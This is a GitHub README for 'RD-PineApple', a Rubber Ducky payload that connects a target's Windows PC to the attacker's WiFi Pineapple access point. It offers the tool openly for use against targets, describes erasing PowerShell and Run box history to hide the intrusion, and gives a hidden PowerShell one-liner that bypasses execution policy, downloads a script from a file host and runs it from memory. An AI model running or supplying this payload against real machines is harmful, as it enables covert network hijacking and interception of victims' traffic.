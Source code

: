 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# RD-PineApple

A script used to connect a targets PC to your wifi PineApple

## Description

This program will use the RubberDucky to connect target pc to your Wifi PineApples wireless access point
It will generate an XML file that will be used to create a network profile for your Wifi PineApple. 
Depending on your method of execution the XML file will either be manually entered into a powershell window 
or you may use and Invoke Web-Request to download a script to add the network profile. After either the history of
the powershell window and run box will be erased for a clean exit. 

## Getting Started

### Dependencies

* DropBox or another File Hosting service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in RubberDucky
* Either the entire script will be manually entered into the powershell window or
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* PS1 file to download is provided above
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-PineApple)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)



<p align="right">(<a href="#top">back to top</a>)</p>
